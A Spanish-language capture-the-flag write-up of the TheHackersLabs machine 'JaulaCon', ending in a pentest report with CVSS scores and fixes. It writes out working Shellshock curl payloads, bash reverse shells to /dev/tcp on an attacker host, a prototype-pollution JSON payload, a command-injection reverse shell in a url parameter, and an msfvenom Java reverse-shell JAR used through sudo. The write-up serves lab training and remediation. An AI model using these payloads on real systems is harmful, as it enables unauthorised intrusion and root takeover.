# 🧪 WriteUp - JaulaCon - (TheHackersLabs 🖥)



---
## 🎯 Planificación y Alcance

| Componente               | Detalle                                                                                           |
| ------------------------ | ------------------------------------------------------------------------------------------------- |
| MV Atacante              | Arch Linux (VMWare)                                                                               |
| MV Objetivo              | JaulaCon (TheHackersLabs)                                                                         |
| Modo de Red              | Adaptador Puente                                                                                  |
| Herramientas Usadas      | `arp-scan`, `ping`, `nmap`, `gobuster`, `curl`, `BurpSuite`, `Penelope Shell Handler`, `mfsvenom` |
| Técnicas / Vulns. Usadas | `ShellShock`, `Prototype Pollution`, `Reverse Shell`, `Privilege Escalation`                      |
`NOTA: Tanto la IP de la MV Atacante como la de la MV Objetivo van variando debido a la diferente ubicación física a lo largo de la elaboración de este documento. El procedimiento no varía, el resultado es el mismo`.

---
## 🔍 Reconocimiento

Una vez arrancada la MV Objetivo `JaulaCon`, vamos a proceder con el reconocimiento de su `IP` mediante el comando `sudo arp-scan -I <Net_Interface> --localnet`, sabiendo que la `MAC` del fabricante VirtualBox comienza por `08:00`.

Vamos a realizar una comprobación `ICMP` para verificar la conectividad, latencia y accesibilidad del host e identificamos el Sistema Operativo:



Podemos ver que tenemos conectividad con la máquina víctima y que se trata de un sistema Linux, `ttl=64`.

---
## 📡 Escaneo y Análisis de Vulnerabilidades

Efectuamos un escaneo con `Nmap` para realizar un primer reconocimiento de la máquina víctima:

`sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <Tarjet_IP> -oG allPorts`



De los puertos abiertos vamos a pasarle un segundo escaneo de `Nmap` de vulnerabilidades y versiones de sistema:

`sudo nmap -p <open_ports> -scV <Tarjet_IP> -oN targeted -oX targetedXML`





📖 **Parámetros:**
```bash
-p-: Escaneo completo de todos los puertos, del 1 al 65535.
--open: Escanea solamente puertos abiertos.
-p: Listar puertos específicos.
-sS: Stealth Scan, realiza un escaneo TCP SYN.
-sC: Uso de los scripts predeterminados del NSE (Nmap Scripting Engine).
-sV: Activa la detección de versiones.
-sCV: Igual a -sC y -sV.
--min-rate 5000: Mantiene una velocidad de envío de paquetes de al menos 5000 paquetes por segundo. Hace mucho ruido.
-n: Desactiva la resolución DNS inversa sobre las direcciones IP activas encontradas.
-Pn: Omite la etapa de descubrimiento de hosts (ping) y asume que el objetivo está encendido.
-vvv: Triple verbose. Información en tiempo real del escaneo.
-oG: Output en formato grepeable para poder filtrar.
-oN: Output normal en formato Nmap.
-oX: Output en formato XML.
```

---
📖 **Nota:**
Viendo la versión `Apache 2.4.59`, vemos que podría ser vulnerable a un `Server-Side Request Forgery (SSRF)`: Las aplicaciones backend maliciosas o explotables que devuelven encabezados de respuesta específicos pueden forzar al núcleo de Apache a generar un **SSRF o la ejecución de scripts locales**.



---

Vamos a empezar inspeccionando el `puerto 80`.
Realizando `Fuzzing web` no encontramos nada interesante.





Probamos a `fuzzear`por el `puerto 8080` que es una plantilla de `Apache2`.



Encontramos un directorio interesante: `cgi-bin/`

---
📖 **Nota:**
El directorio `cgi-bin` (Common Gateway Interface - Binary) es una carpeta especial en servidores web, como Apache, destinada a almacenar **scripts o programas ejecutables** en el servidor.

A diferencia de una carpeta normal que solo almacena archivos estáticos (como imágenes o código HTML que el navegador lee), los archivos (`scripts`) dentro de `cgi-bin` **se ejecutan en el sistema operativo del servidor** cada vez que alguien los visita. El resultado de esa ejecución (normalmente texto o HTML) se envía de vuelta al navegador del usuario.

Es decir, se podría ocasionar una vulnerabilidad de `Shellshock Remoto` ocasionando un `Remote Command Execution (RCE)`. Los archivos susceptibles a un ataque `Shellshock` son los que comúnmente pertenezcan a alguna de las siguientes extensiones:

- `.cgi`
- `.sh`

Algunos servidores web, como por ejemplo apache, soportan lo que se llama `Common Gateway Interface (CGI)`. Esta característica permite a programas externos, hacer uso de datos provenientes del servidor web. Esta funcionalidad se relaciona con la famosa carpeta `cgi-bin` que nos podemos encontrar muchas veces. `cgi-bin` es una carpeta creada automáticamente para colocar scripts que queramos que interactúen con el servidor web.

Por lo que la explotación remota no se limita a los archivos `.cgi`. Se limita, a los archivos que interactúen con la `bash` usando en variables de entorno, datos del servidor web. Que es lo que permite el `CGI`.

Entonces, la idea de la explotación remota es que cualquier información recibida en una petición por parte del cliente como puede ser el `User-Agent`, `Referer`, u otros parámetros se almacenan en forma de variables de entorno para que puedan ser usadas por programas o scripts externos, por esto, los archivos situados en la carpeta `cgi-bin` son susceptibles a `Shellshock`.

---
Con esto claro, vamos a empezar a `fuzzear` en la carpeta `cgi-bin/` para encontrar algún `endpoint`:

`gobuster dir -u http://Tarjet_IP:Port/cgi-bin/ -w /path_to_the_wordlist -x cgi,sh`



Tras un buen tiempo ejecutándose la búsqueda, encontramos un script de `CGI` -> `agua.cgi`

---
## ⚔ Explotación

Con todo esto, vamos a probar a enviar de forma manual un `payload` de `ShellShock` a través de la cabecera del `User-Agent`:

`curl -A "() { :;}; echo \"Content-type: text/plain\"; echo; echo; echo vulnerable" http://Tarjet_IP:Port/cgi-bin/agua.cgi`



📖 **Parámetros:**
```bash
-A -> Establece el User-Agent, que es la cabecera más comúnmente atacada.
() { :;}; -> Definición de función vacía que desencadena el fallo.
echo "Content-type: text/plain"; echo; echo; -> Necesario para que Apache interprete correctamente la respuesta.
echo vulnerable -> Comando a ejecutar.
```

Dado que esta prueba ha resultado satisfactoria, es vulnerable a un `ShellShok`, con lo que podríamos por ejemplo, ver el archivo de contraseñas del sistema:

`curl -A "() { :;}; echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://Tarjet_IP:Port/cgi-bin/agua.cgi`



Visualizamos el contenido que nos devuelve la ruta del archivo `cgi`:

`http://Tarjet_IP:Port/cgi-bin/agua.cgi`



Vamos a realizar esto mismo con `Burpsuite`, interceptamos la petición y la mandamos al `Repeater`.
En el `User-Agent` metemos el `payload`, esta vez, ejecutando una `Reverse Shell`:

User-Agent: `() { :;}; /bin/bash -c 'bash -i >& /dev/tcp/Local_IP/Port 0>&1'`



Nos ponemos a la escucha por el puerto `4444` cpm `Penelope Shell Handler` (valdría `Netcat`) y lanzamos con el `Repeater` la petición:




Obtenemos la `Reverse Shell`:



---
📖 **Nota:**
- Tratamiento de la `TTY (PTY)` automatizado con `Penelope`.
- Método manual desde la terminal, teniendo a `Penelope` a la escucha:
	`curl -A "() { :;}; echo \"Content-type: text/plain\"; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/Local_IP/Port 0>&1'" http://Tarjet_IP:Port/cgi-bin/agua.cgi`



---

Una vez dentro, vamos a mirar en busca de algún archivo crítico con:

`ls -la /* 2>/dev/null | more`





Encontramos el archivo oculto `.credenciales` en la carpeta `/opt`:
`Shellychosk:Portidrea345ñ`

Como vimos anteriormente, solo existen 2 usuarios en el sistema, `root` y `vulnuser`, por lo que estas credenciales probablemente sea para acceder al login del puerto `3333`.



Ingresando las credenciales por el puerto `3333` llegamos a este panel:



Inspeccionando el código fuente con `Ctrl+u`, se observa que está escrito en `JavaScript (Node.js)`, vemos que hace una petición por `POST` de una `URL` previamente chequeada, y si es satisfactoria muestra una alerta con texto y manda los parámetros.



Enviamos una solicitud por diferentes métodos y vemos que no tenemos permisos de administrador.





---
📖 **Nota:**
El `Prototype Pollution (Contaminación de Prototipos)` es una vulnerabilidad crítica específica de `JavaScript` y entornos como `Node.js`.

Ocurre cuando un atacante logra modificar o "contaminar" el prototipo base de un objeto `JavaScript` (`Object.prototype`). Como casi todos los objetos en `JavaScript` heredan propiedades de este prototipo base, cualquier cambio en él se propaga automáticamente a **todos los objetos de la aplicación**.

---

Vamos a realizar un `Prototype Pollution`:

Para ello interceptamos con `Burpsuite` la petición por `POST`, vemos que nos da una **cookie de sesión**. Enviamos al `Repeater`:





Vamos a modificar esta petición con un formato `JSON`, inyectando el `Prototype Pollution` y enviamos:

```java
Content-type: application/json

{
	"url":"http://Target_IP",
	"__proto__":{
		"isAdmin":"true"
	}
}
```



Aparece como que no somos admin, pero la petición ha sido **exitosa**, esto se debe a que la **primera vez que enviamos la contaminación del prototipo**, se llega a mandar exitosamente (`200 OK`) con nuestra cookie de sesión, pero **aún sin aplicarse**.

Para ello, vamos a mandar de nuevo otra petición, pero esta vez modificando la cookie de sesión (eliminando un dígito), por lo que esta cookie ya no existe, haciendo que en el `backend` se cree un reporte con los datos enviados anteriormente y contaminando dicho objeto:



Por lo que volvemos a mandar nuestra petición con nuestra cookie de sesión, esta vez ya contaminada, obteniendo permisos de administrador (`"isAdmin":"True"`):



Si volvemos a mandar una petición como estaba originalmente, nuestra cookie de sesión ya ha sido modificada, y nos da permisos de administrador:



La forma de ejecutar comandos en la máquina víctima con `JavaScript` es con la función `exec()`, la cual crea un nuevo `Shell` y ejecuta un comando dado. La salida de la ejecución se almacena en búfer, lo que significa que se mantiene en memoria, y está disponible para su uso en una llamada de retorno.

Vamos a realizar las modificaciones en `BurpSuite`:

El primer comando que es la petición lo encadenamos con `";"` para que ejecute el siguiente comando (`Reverse Shell`) que es el que nos interesa, después añadimos `"#"` para comentar lo que realiza el primer comando que no nos interesaba.

`url=http://Tarjet_IP;bash -c 'bash -i >& /dev/tcp/Local_IP/Port 0>&1' #`

Lo `url encodeamos` para que no haya problemas con `Ctrl+u`:

`url=http://192.168.1.4;bash+-c+'bash+-i+>%26+/dev/tcp/192.168.1.6/5555+0>%261'+%23`



Por otro lado, nos ponemos de nuevo a la escucha y le damos a enviar:



De esta forma, conseguimos acceder con el usuario `jaula` en la máquina víctima `JaulaCon`.




---
📖 **Nota:**
El funcionamiento interno del código de esta vulnerabilidad se puede ver en el archivo `routes.js` haciendo un `cat routes.js`.

---
## 💥 Post-Explotación

Una vez dentro, buscamos la `Flag del usuario jaula`: `3ac6640322d7d06957d3773fab3b27b7`



### Escalada de privilegios 

Vemos qué privilegios puede tener el usuario actual `jaula`, mirando en el directorio `/etc/sudoers` con `sudo -l`:



Vemos que tenemos privilegios de `root` en `/usr/bin/java`, por lo que vamos a proceder a inyectar un `payload` por esta vía.

Para ello, creamos un `payload` de `Java` con `mfsvenom`:

`msfvenom -p java/shell_reverse_tcp LHOST=Local_IP LPORT=PORT -f jar -o rs.jar`



Una vez creado el `payload` lo transferimos a la máquina víctima:

---
📖 **Nota:**
La forma tradicional sería:

1. Montar un servidor `HTTP` en el directorio de trabajo donde tenemos el `payload` -> `python3 -m http.server 80`
2. Transferirlo desde la máquina víctima con `wget` -> `jaula@JaulaCon:~$ wget http://Local_IP/rs.jar`
---

Con `Penelope` esto se puede automatizar:

1. `F12` para salir de la sesión y dejarla en el `background`.
2. `upload /path_absoluto/rs.jar`
3. Volver a la sesión -> `sessions 4`



Una vez en la sesión, vemos que efectivamente, se ha transferido correctamente:



La forma que ejecutaremos el `payload` en la máquina víctima será con `java -jar <archivo jar>`



Forma de proceder:

1. Creamos una nueva sesión en el puerto `6666` (`Session 5` que sirve de puente para ejecutar la `Reverse Shell`) donde hemos configurado el `payload` `rs.jar` -> `F12 para llevar la Session 4 al background`, `spawn 6666`
2. Esto nos crea una `Session 5`, accedemos de nuevo a `Session 4`.
3. Ejecutamos el `payload` -> `sudo /usr/bin/java -jar rs.jar` y esto nos crea una `Session 6` generada por la `Reverse Shell`.
4. Si pulsamos nuevamente `F12` para traer la `Session 4 al background` y ponemos `sessions`, vemos las sesiones abiertas, entramos esta vez a la `Session 6`, la cual nos entra con privilegios de `root` en la máquina víctima.









Ahora solo queda conseguir la `Flag del usuario root` ubicada en `/root` -> `bdc7c8e1ce71e0ebff2d76d9b58c9b74`



---
📖 **Nota:**
Al realizar de nuevo `F12` para traer la `Session 6 al background` y ver las sesiones abiertas, podemos observar como `Penelope` ya nos ha automatizado el tratamiento de la `TTY` (`raw -> PTY`)



Finalmente, con el comando `exit` se podrían cerrar todas las sesiones abiertas para salir de `Penelope`.
Alternativamente, se puede ir cerrando sesión a sesión con `kill ID`.

---
## 🧾 Informe Final

**Plataforma:** TheHackersLabs  
**Fecha:** ---
**Entorno:** Máquina virtual en modo puente, atacante Arch Linux, objetivo Linux (TTL=64)

---

### Resumen Ejecutivo

Se realizó una prueba de penetración contra la máquina objetivo `JaulaCon`. El ataque comenzó con descubrimiento de puertos y servicios, identificando vulnerabilidades críticas: **ShellShock** en un script CGI, **Prototype Pollution** en una aplicación Node.js y una mala configuración de `sudo` que permitió escalar a root mediante un payload Java. Se obtuvo acceso no autorizado como usuario `jaula` y posteriormente como `root`, comprometiendo completamente el sistema.

**Impacto:** Alto – control total del sistema (shell root), exfiltración potencial de datos, persistencia, movimiento lateral.

---

### Metodología y Hallazgos Detallados

#### 1. Reconocimiento y Escaneo

- **IP objetivo:** Descubierta mediante `arp-scan` (MAC VirtualBox: `08:00…`).
- **Puertos abiertos:** `22 (SSH)`, `80 (HTTP)`, `8080 (HTTP)`, `3333 (HTTP)`.
- **Servicios detectados:**
    - Apache 2.4.59 (puertos 80 y 8080)
    - Servidor Node.js (puerto 3333)

#### 2. Vulnerabilidad ShellShock (CVE-2014-6271)

**Ubicación:** `http://[IP]:8080/cgi-bin/agua.cgi`

**Prueba de concepto:**

```bash
curl -A "() { :;}; echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://[IP]:8080/cgi-bin/agua.cgi
```

Se obtuvo el contenido de `/etc/passwd`, confirmando RCE.

**Explotación:**  
Se inyectó una reverse shell vía `User-Agent`:

```bash
() { :;}; /bin/bash -c 'bash -i >& /dev/tcp/[atacante_IP]/4444 0>&1'
```

Se obtuvo una shell inicial sin privilegios (usuario `www-data`).

**Evidencia:**

- Respuesta del servidor con salida de comandos.
- Shell reversa establecida.

#### 3. Credenciales en /opt

Se encontró un archivo oculto `/opt/.credenciales` con el contenido:

```text
Shellychosk:Portidrea345ñ
```

Estas credenciales permitieron acceder al servicio web del puerto `3333` (panel Node.js).

#### 4. Vulnerabilidad de Prototype Pollution (Node.js)

**Contexto:** El panel en puerto `3333` permite enviar URLs mediante POST, con verificación previa. Se identificó una cookie de sesión y la lógica de control de administrador (`isAdmin`).

**Explotación:**

1. Se interceptó una petición POST con BurpSuite.
2. Se inyectó contaminación de prototipo en formato JSON (por ejemplo, añadiendo `"__proto__": {"isAdmin": "True"}`).
3. La primera petición falló en aplicar el cambio, pero al enviar una segunda petición con una cookie inválida (no existente), el backend creó un nuevo reporte con el prototipo contaminado.
4. Al reenviar la petición original con la cookie válida, se obtuvo `"isAdmin":"True"`.

**Inyección de comando mediante RCE en Node.js:**  
Se aprovechó la función `exec()` con un payload encadenado:

```text
url=http://[IP];bash -c 'bash -i >& /dev/tcp/[atacante_IP]/5555 0>&1' #
```

Se URL-encodeó y se envió vía POST. Esto otorgó una shell como usuario `jaula`.

**Evidencia:**

- Cambio de privilegio a administrador visible en respuestas JSON.
- Conexión reversa entrante en puerto 5555.

#### 5. Escalada de Privilegios a Root

- **Usuario actual:** `jaula`
- **Privilegios sudo:**
    `sudo -l`
	Resultado: `(root) NOPASSWD: /usr/bin/java`

**Explotación:**
1. Se generó un payload Java reverse shell con `msfvenom`:
    `msfvenom -p java/shell_reverse_tcp LHOST=[atacante_IP] LPORT=5555 -f jar -o rs.jar`
2. Se transfirió a la víctima mediante `wget` o la función `upload` de `Penelope`.
3. Se inició un listener en puerto `5555`.
4. Se ejecutó:
    `sudo /usr/bin/java -jar rs.jar`
5. Se recibió una shell como `root`.

**Flags obtenidas:**
- Usuario `jaula`: `3ac6640322d7d06957d3773fab3b27b7`
- Root: `bdc7c8e1ce71e0ebff2d76d9b58c9b74`

---
### Riesgos y Puntuación CVSS (estimada)

|Vulnerabilidad|Vector CVSS|Gravedad|Impacto|
|---|---|---|---|
|ShellShock (CGI)|CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H|Crítica|Ejecución remota de comandos, shell|
|Prototype Pollution|CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H|Crítica|Bypass de control de administrador, RCE|
|Sudo mal configurado|CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H|Alta|Escalada inmediata a root|

---

### Soluciones y Recomendaciones

#### Para ShellShock

- **Actualizar bash** a una versión parcheada (posterior a 2014).
- **Deshabilitar CGI** si no es estrictamente necesario.
- **Configurar Apache** para ejecutar scripts CGI con un shell seguro y restringir variables de entorno.
- **Validar y sanitizar** todas las cabeceras HTTP que se pasan como variables de entorno.

#### Para Prototype Pollution

- **Congelar el prototipo base** con `Object.freeze(Object.prototype)`.
- **Usar objetos sin prototipo** (ej. `Object.create(null)`) para datos externos.
- **Validar y desinfectar** entradas JSON recursivamente, eliminando claves peligrosas como `__proto__`, `constructor`, `prototype`.
- **Implementar esquemas estrictos** (ej. con `JSON Schema`).
- **Actualizar dependencias** de Node.js (aunque el fallo es de lógica propia).

#### Para la escalada de privilegios con Java

- **Revisar la configuración de sudo** y eliminar permisos `NOPASSWD` innecesarios.  
    Cambiar a:
    `jaula ALL=(root) /usr/bin/java`
	Requiere contraseña (si realmente se necesita Java).
- **Mejor aún: eliminar completamente** el privilegio a menos que sea absolutamente crítico.
- **Restringir qué JARs pueden ejecutarse** (ej. solo firmados o desde rutas específicas no escribibles).

#### Buenas prácticas generales

- **Separación de servicios:** No exponer puertos innecesarios (8080, 3333).
- **Principio de mínimo privilegio:** El usuario `www-data` o `jaula` no debería poder leer credenciales en `/opt`.
- **Auditoría de archivos sensibles:** Evitar credenciales en texto plano.
- **Uso de WAF/RASP** para detectar inyecciones de cabeceras y contaminación de prototipos.
- **Monitoreo de logs:** Detectar `User-Agent` con patrones de ShellShock (`() {`).

---

### Conclusión

El sistema `JaulaCon` presenta fallos de seguridad críticos encadenables que permiten a un atacante externo sin autenticación obtener control total. La remediación implica actualizar componentes, aplicar controles de entrada/salida, endurecer configuraciones de sudo y eliminar credenciales estáticas. Se recomienda realizar un nuevo pentesting tras aplicar las correcciones.

---
## Cálculo de los Vectores CVSS v3.1

### 1. ShellShock (CVE-2014-6271)

**Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H**

|Métrica|Valor|Justificación|
|---|---|---|
|**AV (Attack Vector)**|N (Network)|Explotable remotamente vía HTTP|
|**AC (Attack Complexity)**|L (Low)|No se requieren condiciones especiales, solo enviar una cabecera maliciosa|
|**PR (Privileges Required)**|N (None)|No necesita autenticación previa|
|**UI (User Interaction)**|N (None)|El atacante no necesita interacción del usuario|
|**S (Scope)**|C (Changed)|La vulnerabilidad en bash afecta al sistema subyacente (Apache → sistema operativo)|
|**C (Confidentiality)**|H (High)|Exfiltración total de datos (lectura de /etc/passwd, etc.)|
|**I (Integrity)**|H (High)|Modificación de archivos, creación de backdoors|
|**A (Availability)**|H (High)|Posibilidad de DoS, apagar servicios, eliminar datos|

**Puntuación base:** 10.0 (Crítica)

---

### 2. Prototype Pollution (Node.js)

**Vector CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H**

|Métrica|Valor|Justificación|
|---|---|---|
|**AV**|N (Network)|Explotable remotamente vía HTTP (puerto 3333)|
|**AC**|L (Low)|Solo requiere enviar JSON manipulado y manipular cookies|
|**PR**|L (Low)|**Requiere credenciales** (`Shellychosk:Portidrea345ñ`) para acceder al panel|
|**UI**|N (None)|Sin interacción del usuario|
|**S**|C (Changed)|Contamina el prototipo global de Node.js, afectando a toda la aplicación|
|**C**|H (High)|Acceso a datos de otros usuarios, variables internas|
|**I**|H (High)|Modificación de lógica de administrador (`isAdmin: True`)|
|**A**|H (High)|Ejecución de comandos, DoS potencial|

**Puntuación base:** 9.9 (Crítica)  
_Se reduce ligeramente por requerir autenticación (PR:L)_

---

### 3. Sudo mal configurado (CVE no asignado, problema de configuración)

**Vector CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H**

|Métrica|Valor|Justificación|
|---|---|---|
|**AV**|L (Local)|El atacante ya debe tener acceso local (usuario `jaula`)|
|**AC**|L (Low)|Solo ejecutar `sudo /usr/bin/java -jar payload.jar`|
|**PR**|L (Low)|Se necesita ser usuario `jaula` (privilegios bajos)|
|**UI**|N (None)|No requiere interacción|
|**S**|U (Unchanged)|El componente vulnerable (`sudo`) afecta directamente al sistema objetivo sin saltar límites de seguridad adicionales|
|**C**|H (High)|Acceso completo a todos los archivos del sistema|
|**I**|H (High)|Modificación total del sistema|
|**A**|H (High)|Control total del sistema, incluyendo parada de servicios|

**Puntuación base:** 7.8 (Alta)  
_No es crítica porque requiere acceso local previo (AV:L)_

---

### Tabla Resumen de Métricas

|Métrica|ShellShock|Prototype Pollution|Sudo + Java|
|---|---|---|---|
|AV|N|N|L|
|AC|L|L|L|
|PR|N|L|L|
|UI|N|N|N|
|S|C|C|U|
|C|H|H|H|
|I|H|H|H|
|A|H|H|H|
|**Base Score**|**10.0**|**9.9**|**7.8**|
|**Severidad**|Crítica|Crítica|Alta|


